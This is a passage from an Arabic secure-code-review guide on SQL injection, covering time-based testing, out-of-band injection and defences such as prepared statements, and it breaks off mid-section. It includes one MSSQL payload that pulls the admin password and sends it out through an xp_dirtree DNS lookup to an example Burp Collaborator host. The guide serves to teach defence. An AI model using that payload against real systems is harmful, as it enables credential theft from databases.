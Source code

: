 ```jsx
if (is_numeric($_GET['id'])) {
// Proceed with the query
} else {
// Handle the error
}
```

**ختبر استعلامات بتوقيت محدد**: استخدم أدوات مثل Burp Suite لاختبار استجابات الخادم للتأكد من عدم وجود استعلامات ضارة تُسبب تأخيرًا ملحوظًا في الاستجابة.

### 3. **Out-of-band SQL Injection (حقن خارج النطاق)**:

### **تعريف**:

- هذا النوع أقل شيوعًا ويحدث عندما يتطلب الهجوم قناة منفصلة للإخراج. بدلاً من الحصول على النتائج في الصفحة المستهدفة، يتم إرسال البيانات إلى خادم خارجي يتحكم فيه المهاجم (مثل DNS أو HTTP).
- **Out-of-band** يكون مفيدًا عندما تكون النتائج غير مرئية للمهاجم مباشرةً أو لا يمكن استخدام القناة نفسها للاستجابة.

### **مثال**:

```jsx
'; declare @p varchar(1024); set @p=(SELECT password FROM users WHERE username='admin'); exec('master..xp_dirtree "//' + @p + '.example.burpcollaborator.net/a"')--
```

- هنا، يتم استخدام استعلام SQL لجلب كلمة مرور المستخدم `admin`، وإرسالها إلى خادم خارجي عبر طلب DNS.

### **مراجعة الكود**:

- **ابحث عن استدعاءات خارجية غير ضرورية**: تأكد من أن الكود لا يحتوي على أي استعلامات تتيح إجراء طلبات خارجية مثل `xp_cmdshell` أو `xp_dirtree`.
- **التحقق من أنظمة الاستضافة**: تأكد من أن قاعدة البيانات لا يمكنها الوصول إلى الإنترنت الخارجي أو إصدار اتصالات إلى خوادم غير موثوقة.

---

### **استراتيجيات الحماية أثناء مراجعة الكود**:

1. **استخدام الاستعلامات المعدة مسبقًا (Prepared Statements)**:
    - أفضل طريقة لحماية تطبيقك هي استخدام الاستعلامات المعدة مسبقًا التي تفصل بين الكود والبيانات. هذا يمنع المهاجم من التلاعب بالاستعلامات مباشرة.
    
    ```jsx
    $stmt = $pdo->prepare('SELECT * FROM users WHERE username = :username');
    $stmt->execute(['username' => $username]);
    ```
    
    - **التأكد من صحة المدخلات (Input Validation)**:
        - قم بتحديد أنواع البيانات المقبولة (مثل أرقام فقط أو عناوين بريد إلكتروني)، وتجنب السماح بإدخال حروف خاصة أو رموز قد تُستخدم في الاستعلامات الضارة.
    - **التشفير (Escaping)**:
        - إذا كان من الضروري تضمين المدخلات في استعلامات، تأكد من تشفير تلك المدخلات بشكل صحيح (Escaping). مثال:
        